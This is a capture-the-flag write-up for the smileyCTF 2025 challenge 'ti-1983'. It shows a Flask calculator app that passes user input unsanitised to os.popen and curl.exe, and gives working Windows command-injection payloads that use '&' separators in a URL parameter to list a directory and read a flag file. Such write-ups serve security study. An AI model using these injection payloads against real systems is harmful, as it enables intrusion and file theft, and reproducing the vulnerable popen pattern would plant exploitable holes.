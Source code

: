 +++
title = 'smileyCTF 2025 - misc/ti-1983'
date = 2025-06-17T00:55:31-04:00
draft = false
+++



We're presented with a Flask web application that appears to be a calculator service. 

The calculor endpoint:
```python
def execute_code():
    code = request.values.get('code')
    output_tmpl = request.values.get('tmpl')
    if len(code) > 3 and any(c in code for c in "0123456789+*-/"):
        return render_error("This is a ~~Wendys~~ TI-84.")
```

Input code must be ≤3 characters or code cannot contain digits (0-9) or math operators (+*-/) if longer than 3 characters

User-provided `code` is inserted into `code_tmpl.py`. The code is executed in a sandboxed Python environment
The application uses `os.popen()` to execute curl with user-controlled input.

```python
url = f"{request.url_root}/static?{output_tmpl}.tmpl"
out_tmpl = os.popen(f"curl.exe -s {url}").read()
```

The `eval()` function runs with `{'__builtins__': {}}`, so we have no access to standard Python functions The URL construction allows us to inject OS commands.

The payload to list the directory contents:

```
/ti-84?code=""&tmpl=x.tmpl%26dir%26echo%20{{out}}
```
- `code=""` satisfies the length requirement (≤3 characters) and `tmpl=x.tmpl&dir&echo {{out}}` becomes part of the curl command. The `&` character acts as a command separator in Windows

```
Directory of C:\app
06/14/2025 04:29 AM    (33) flag_4dfa54cf005d9fea.txt
```

Final payload:

```
/ti-84?code=""&tmpl=x.tmpl%26type%20flag_4dfa54cf005d9fea.txt%26echo%20{{out}}
```

`.;,;.{command_injection_in_2025?}`